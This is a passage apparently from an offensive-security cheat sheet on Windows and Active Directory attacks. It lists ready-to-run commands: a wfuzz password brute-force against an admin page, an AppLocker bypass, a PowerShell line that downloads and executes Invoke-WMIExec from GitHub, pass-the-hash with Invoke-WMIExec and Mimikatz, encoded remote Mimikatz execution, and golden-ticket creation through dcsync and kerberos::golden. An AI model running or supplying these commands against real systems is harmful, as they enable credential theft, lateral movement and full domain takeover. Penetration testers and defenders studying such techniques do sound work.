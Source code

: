 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  
<b>2. Alternative powershell files</b>

![applocker2](https://user-images.githubusercontent.com/7115563/34455569-e0136c6a-ed81-11e7-9b0e-127ae9d395e0.png)
  
  ```C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise```
  
  
 <a name="pth"></a> <h3> Pass The Hash </h3>
  
  
  <b> Invoke a command Remotely </b>
  
  <pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')
 
 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\bitch.txt"
</pre>

  <b> Invoke Mimikatz Remotely </b>
  
  <pre>Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455757-1f6aed1c-ed86-11e7-9415-595fa5e8d6e7.png)
  
  <b> Pass The Hash with Mimikatz </b>
  
  <pre> Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'</pre>
  
  
  <a name="krb"></a><h3> Kerberos </h3>
  
  
  <b> Generate Golden Ticket (Domain Admin Required) </b>
  
  <pre>Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455725-7230ee30-ed85-11e7-9333-16372355ce60.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455734-89934d5c-ed85-11e7-960e-9659e099c9df.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455745-9edd0360-ed85-11e7-84f0-6d62e621613b.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455747-b285372a-ed85-11e7-9374-c481108db77e.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455748-bb0512c6-ed85-11e7-8d40-b6516cf8b0f3.png)
  
```